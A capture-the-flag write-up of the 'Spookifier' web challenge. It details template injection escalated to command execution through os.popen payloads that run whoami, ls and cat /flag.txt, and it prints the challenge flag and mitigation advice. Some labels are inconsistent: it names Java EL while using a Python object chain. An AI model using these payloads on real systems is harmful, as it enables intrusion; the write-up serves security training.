







# Spookifier — SSTI to RCE Writeup

## Challenge Info
- **Name:** Spookifier
- **Difficulty:** Very Easy
- **Category:** Web / Server-Side Template Injection (SSTI)
- **Target:** `154.57.164.79:31355`


## Scenario
The app generates a "spooky" Halloween name for users. The twist: users reported their *real* names getting mysteriously changed too — a hint that user input is being processed somewhere it shouldn't be.

## Step 1 — Recon
Opened the target in the browser. A simple page titled **Name Spookifier** with an input box and a "Spookify" button. Entering a name and submitting sends it via GET request as a `text` parameter, and the app reflects a "spookified" version back on the page.



## Step 2 — Probing for SSTI
Intercepted the request in Burp Suite. The `text` parameter looked worth fuzzing for template injection, since the app clearly does some kind of string transformation server-side.

Sent the request through **SSTImap** to automate detection:

```
sstimap -u "http://154.57.164.79:31355/?text=test"
```

SSTImap ran through its plugin checks (Twig, Jinja2, ERB, Java EL, etc.) and confirmed a hit:

```
[+] Java_EL_generic plugin has confirmed boolean error-based blind injection
[+] SSTImap identified the following injection point:

  Query parameter: text
  Engine: Java_EL_generic
  Injection: {{*}}
  Context: text
  Technique: boolean error-based blind
```


SSTImap identified a possible Java EL-style injection, but this result was treated as a hypothesis and required manual verification.

## Step 3 — Manual Confirmation
Went back to Burp Repeater to confirm manually. Sent:

```
GET /?text=${7*7} HTTP/1.1
Host: 154.57.164.79:31355
```

The response rendered `49` in the output table — confirming the EL expression was evaluated server-side.


## Step 4 — Escalating to Command Execution
After confirming server-side expression evaluation, I tested whether the exposed template context could be used to access the underlying Python runtime and execute OS commands.
Payload:
```
GET /?text=${self.module.cache.util.os.popen('whoami').read()} HTTP/1.1
```

Response came back "spookified" but readable — confirming we're running as **root**.

)

## Step 5 — Enumerating the Filesystem
Listed the current directory:

```
GET /?text=${self.module.cache.util.os.popen('ls').read()} HTTP/1.1
```

`flag.txt` sitting right in the root directory.


Also checked `/app`:
```
GET /?text=${self.module.cache.util.os.popen('ls+/').read()} HTTP/1.1
```
Found `application/run.py`, confirming this is a small Python web app being SSTI'd through its templating layer.


## Step 6 — Reading the Flag
```
GET /?text=${self.module.cache.util.os.popen('cat+/flag.txt').read()} HTTP/1.1
Host: 154.57.164.79:31355
```

Response contained the flag:

```
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!!}
```



## Step 7 — Flag Submitted ✅
Submitted the flag on the platform — challenge marked as **completed**.


---

## Summary
| Step | Action |
|---|---|
| 1 | Identified reflected input on Spookifier name generator |
| 2 | Used SSTImap to auto-detect Java EL SSTI on `text` param |
| 3 | Manually confirmed with `${7*7}` → `49` |
| 4 | Escalated to RCE via `self.module.cache.util.os.popen()` |
| 5 | Enumerated filesystem, found `flag.txt` in root |
| 6 | Read flag via `cat /flag.txt` |
| 7 | `HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!!}` |

**Root cause:** User input from the text parameter was evaluated within a server-side template/expression context instead of being treated strictly as data. This allowed attacker-controlled expressions to be executed and, through exposed runtime functionality, escalated to OS command execution.

**Fix/Mitigation:** Never evaluate user-controlled input as template/EL expressions. Use sandboxed template engines, strict input allow-listing, or avoid dynamic expression evaluation for user-facing transformations.